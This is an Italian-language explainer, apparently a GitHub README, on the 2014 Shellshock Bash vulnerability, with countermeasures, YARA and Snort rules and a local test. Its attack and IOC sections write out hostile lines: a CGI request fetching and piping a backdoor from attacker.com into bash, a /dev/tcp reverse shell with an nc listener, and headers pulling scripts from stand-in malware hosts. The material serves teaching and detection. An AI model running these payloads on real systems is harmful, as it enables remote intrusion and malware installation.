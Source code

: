 # **Shellshock (CVE-2014-6271)**

---

## 1. Introduzione all’attacco/vulnerabilità

**Shellshock** è una vulnerabilità scoperta nel **settembre 2014** nella shell **Bash** (Bourne Again Shell), utilizzata nella maggior parte dei sistemi Unix/Linux.
Permetteva a un attaccante di eseguire **comandi arbitrari da remoto**, sfruttando il modo in cui Bash gestiva alcune **variabili d’ambiente**.

Questa vulnerabilità era particolarmente pericolosa nei contesti dove Bash veniva avviata automaticamente da altri servizi, ad esempio:

* Web server che usano **CGI scripts**
* Servizi **SSH** che accettano chiavi con comandi preimpostati
* **Client DHCP**
* **Cron jobs**

---

## 2. Descrizione e periodo di riferimento

* **Data di scoperta pubblica:** 24 settembre 2014
* **CVE principale:** CVE-2014-6271
* **Altri bug collegati:** CVE-2014-7169, CVE-2014-7186, CVE-2014-7187, ecc.
* **Gravità (CVSS):** 10.0 / 10
* **Sistemi colpiti:** Tutti i sistemi Unix/Linux che usano Bash in versioni vulnerabili

Shellshock ha avuto **impatto immediato e globale**, poiché la maggior parte dei server e dispositivi connessi a Internet usavano una versione di Bash affetta.
Essendo facilissima da sfruttare, è stata immediatamente integrata in tool automatici di scansione e botnet.

---

## 3. Analisi tecnica dello svolgimento dell’attacco

La vulnerabilità si basa sul comportamento di Bash quando interpreta **funzioni definite tramite variabili d’ambiente**.
Esempio:

```bash
env x='() { :; }; comando_malevolo' bash -c "echo test"
```

Bash dovrebbe definire una funzione `x`, ma in realtà esegue anche **il comando malevolo** dopo `};`, a causa di un errore nel parser.

---

### Esempio concreto: attacco via HTTP

Se un web server usa script CGI scritti in Bash, l’attaccante può inviare una richiesta come questa:

```http
GET /cgi-bin/test.sh HTTP/1.1  
Host: victim.com  
User-Agent: () { :; }; /bin/bash -c "curl http://attacker.com/backdoor.sh | bash"
```

**Risultato:** Il server scarica ed esegue un malware o una reverse shell.
Questo succede perché i web server CGI passano l’**User-Agent** come variabile d’ambiente allo script, che lo esegue con Bash.

---

## 4. Contromisure e detection

### Contromisure tecniche:

* 🔧 **Aggiornare Bash** alla versione corretta (patch disponibile dal 2014)
* 🔒 Disabilitare l'uso di **script CGI** scritti in Bash
* 🧱 Usare un **WAF** o firewall che blocchi richieste sospette con pattern noti

### Regole di detection (esempi):

* **YARA**:

```yara
rule Shellshock {
  strings:
    $a = "() { :; };"
  condition:
    $a
}
```

* **Snort (IDS)**:

```snort
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (
  msg:"Shellshock exploit attempt";
  content:"() { :; };";
  http_header;
  sid:1000012;
)
```

* **Analisi dei log Apache**:
  Cerca nei log stringhe come: `() { :; };` in header HTTP sospetti

---

## 5. Indicatori di Compromissione (IOC)

### Payload utilizzati:

```bash
() { :; }; /bin/bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
```
```bash
nc -lnvp 4444
```

### Header HTTP sospetti:

* `User-Agent: () { :; }; curl http://evil.com/malware.sh`
* `Referer: () { :; }; wget http://malicious.site/backdoor.sh`

### Domini noti usati negli attacchi:

* `http://malware.shellshock.org`
* `http://botnet.pwned.biz/cgi-bin/exploit.sh`

---

## 6. Fonti tecniche

* Red Hat CVE Advisory:
  [https://access.redhat.com/security/cve/cve-2014-6271](https://access.redhat.com/security/cve/cve-2014-6271)

* National Vulnerability Database (NVD):
  [https://nvd.nist.gov/vuln/detail/CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

* CISA (ex US-CERT):
  [https://www.cisa.gov/news-events/alerts/2014/09/24/bash-command-injection-vulnerability](https://www.cisa.gov/news-events/alerts/2014/09/24/bash-command-injection-vulnerability)

* Troy Hunt – Analisi tecnica Shellshock:
  [https://www.troyhunt.com/everything-you-need-to-know-about-shellshock/](https://www.troyhunt.com/everything-you-need-to-know-about-shellshock/)

---

## 7. Extra – Test locale della vulnerabilità

Per verificare se un sistema era vulnerabile:

```bash
env x='() { :; }; echo VULNERABILE' bash -c "echo Test"
```
<img width="822" height="87" alt="image" src="https://github.com/user-attachments/assets/ffdbfdc0-8f3c-49bd-bc04-3629d0c8a235" />



Se l’output fosse stato:

```
VULNERABILE
Test
```

Il sistema è vulnerabile.

